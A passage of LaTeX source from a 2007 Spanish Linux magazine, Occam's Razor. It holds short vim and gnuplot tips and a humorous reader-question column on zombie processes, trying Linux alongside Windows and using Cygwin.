Recuerda que debes ser root para ejecutar los comandos del ejemplo 3 y no olvides desmontar el dispositivo cuando hayas terminado con �l.


\sectiontext{white}{black}{MANEJAR CARACTERES DE CONTROL EN VIM}
\hrule
\vspace{2mm}

En ocasiones es necesario manejar caracteres de control dentro de ficheros de texto, por ejemplo, para insertar o sustituir tabuladores. La forma de introducir caracteres como el tabulador en el modo comando del vim es pulsar la combinaci�n de teclas \texttt{CONTROL} + V y luego pulsar la tecla del car�cter que se desea utilizar (return, bs, TAB,...). 

\vspace{6mm}

\sectiontext{white}{black}{GENERAR GR�FICOS A PARTIR DE FICHEROS DE TEXTO}
\hrule
\vspace{2mm}

A partir de un fichero de texto que contenga una columna de datos, podemos obtener r�pidamente una representaci�n gr�fica de los mismos utilizando la herramienta \texttt{gnuplot} utilizando los siguientes comandos:

\vspace{2mm}

\hrule
{\scriptsize
{\begin{lstlisting}{}
# wc -l text.dat
25
# gnuplot
gnuplot> plot [t=1:25] "test.txt" using ($2)
\end{lstlisting}
}
}
\hrule
\vspace{2mm}
%$


Si nuestro fichero tuviera dos columnas en las que la primera
representa los valores de abscisas, la siguiente secuencia de
instrucciones gnuplot mostrar�a la gr�fica. Adem�s, en este caso, los
distintos puntos se unir�n utilizando l�neas rectas (par�metro
\texttt{with lines}). 

\vspace{2mm}

\hrule
{\scriptsize
{\begin{lstlisting}{}
# wc -l text.dat
25
# gnuplot
gnuplot> plot "test.txt" using ($1):($2) with lines
\end{lstlisting}
}
}
\hrule
\vspace{2mm}


%% Call for tricks

\vspace{2mm}

\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}{
\textbf{\textsf{Env�a tus trucos}}

\vspace{1mm}

\textsf{Puedes enviarnos esos trucos que usas a diario para compartirlos con el resto de lectores a la direcci�n: }

\vspace{2mm}

\texttt{occams-razor@uvigo.es}
}
\end{minipage}
}

\raggedcolumns
\pagebreak

\vspace{6cm}
\end{multicols}

\pagebreak

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

% Seccion Consultorio
%
% Incluye im�genes
\rput(1,-3){\resizebox{!}{4cm}{{\epsfbox{botiquin.eps}}}}
\msection{yellow}{black}{0.2}{CONSULTORIO}

% ---------------------------------------
% Cabecera
\begin{flushright}
\mtitle{6cm}{Preg�ntale a OCCAM}

\msubtitle{13cm}{Todo lo que nunca quiso saber y s� se atrevi� a preguntar}

{\sf por The Occam's Razor Team}

{\psset{linecolor=black,linestyle=dotted}\psline(-10,0)}

\end{flushright}

\vspace{4mm}
% ---------------------------------------

\begin{multicols}{3}

\small
\definecolor{introcolor}{rgb}{0.8,0.8,1.0}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}


\textsf{\textbf{El m�tico N�mero Zero}}
\vspace{2mm}
\hrule
\vspace{2mm}
{\em Sigo vuestra publicaci�n desde el principio y estoy encantada con
los contenidos que inclu�s en cada entrega. Sin embargo, no consigo
encontrar el legendario n�mero Zero de Occam's Razor. He o�do hablar de �l en
varios foros un tanto ominosos, y me encantar�a conseguirlo para
completar mi colecci�n de Occam's Razor.

\begin{flushright}
Una Tauro

Talavera
\end{flushright}
}

\vspace{4mm}
---

Querida Tauro de Talavera, no me seas calavera. El camino hacia el
Zero es tortuoso y lleno de penurias, no apto para
cualquiera. Profundiza en tu interior, y cuando llegues a lo m�s hondo
de tu esencia, entonces, y solo entonces, encontraras el camino hacia
el Zero.

Pero no te entretengas en tu b�squeda. Recuerda que tras el Zero, esta
el menos uno, el menos dos, \ldots

\vspace{6mm}

\textsf{\textbf{Esas criaturas}}
\vspace{2mm}
\hrule
\vspace{2mm}
{\em 
Antes de nada me gustar�a felicitaros por vuestra revista, me est�
resultando muy �til en mi trabajo y espero impaciente cada nuevo
n�mero. Bueno, me gustar�a saber si hay alguna forma para evitar que
se me llene todo de \texttt{zombies}... salen por todas partes... es
una pesadilla... Dios mio!!!!.

\begin{flushright}
VanHelsing

Talansilvania
\end{flushright}
}



\vspace{4mm}
---



Estimado Van, para terminar con tu pesadilla de los no-muertos, puedes
utilizar cualquiera de las dos t�cnicas que describimos a
continuaci�n:

\columnbreak

\begin{enumerate}
\item Ignora las se�ales SIGCHLD utilizando el comando \texttt{signal
(SIGCHLD, SIG\_IGN);}
\item Incorpora un manejador de la se�al SIGCHLD a tu programa para
enterarte de la muerte de cada uno de tus hijos, y as� poder esperar a
que la palmen del todo con un \texttt{wait}
\end{enumerate}



\vspace{6mm}

\textsf{\textbf{Empezando con Linux}}
\vspace{2mm}
\hrule
\vspace{2mm}
{\em 
Querida razor, quiero introducirme en el mundo linux, pero sigo
necesitando usar mi Windows actual, puedo tener las dos cosas en mi
Pc?? 


\begin{flushright}
Jenny

Windowsland
\end{flushright}
}

\vspace{4mm}
---

Estimada Jenny. Claro que puedes tener los dos sistemas en tu PC. Para
ello tienes varias opciones. Quiz�s la mejor para probar si te gusta
es utilizar lo que se llama una versi�n Live-CD con la que podr�s
utilizar linux sin tener que realizar ninguna instalaci�n. Ubuntu o
Knoppix son dos buenas opciones.



Una segunda opci�n es utilizar un emulador de PC como VMware Player o
qemu. La distribuci�n DSL de la que hablamos en este n�mero de la
revista trae qemu integrado, con lo que podr�s ejecutar linux en una
ventana dentro de tu sistema Windows. Sigue las instrucciones que trae
la propia distribuci�n.


\vspace{6mm}

\columnbreak

\textsf{\textbf{Linux sin Linux}}
\vspace{2mm}
\hrule
\vspace{2mm}
{\em 
Una para Occam. Me gustar�a saber si puedo utilizar UNIX y todas
estas cosas tan chulas de las que hablais en la revista sin tener que
instalar uno.


\begin{flushright}
Lina Porgan

Lapataloca
\end{flushright}
}

\vspace{4mm}
---

Hola Lina Porgan. Claro que puedes. Lo m�s sencillo es que instales
Cygwin. Cygwin es un entorno estilo linux para windows que contiene la
mayor�a de las herramientas disponibles en un sistema linux. La
instalaci�n es muy sencilla, solo sigue las instrucciones que te dan
en:

{\tt http://www.cygwin.com/}



\vspace{4cm}

\colorbox{excolor}{
\begin{minipage}{.9\linewidth}
{\bf\sf\Large TIENES ALGUNA\\ DUDA?}
\vspace{1mm}
\hrule
\bigskip

Enviadnos vuestras preguntas tecnol�gicas e intentaremos hacer lo que
podamos, para aclarar cualquier duda.

Pod�is enviarlas a:

\bigskip

{\tt occams-razor@uvigo.es}

\bigskip



\bigskip

\end{minipage}
}

\end{multicols} 


\colorbox{introcolor}{
\begin{minipage}{1.0\linewidth}
\begin{center}
{\bf\sf\Large EVENTOS DE INTER�S}
\vspace{1mm}
\hrule


\includegraphics[height=2.0cm]{fic.eps}

{\Large\bf\sf Jerez de la Frontera. 7, 8 y 9 de Marzo de 2007}

\end{center}
\end{minipage}
}


\vspace{2cm}

\clearpage
\pagebreak
 

\end{document}
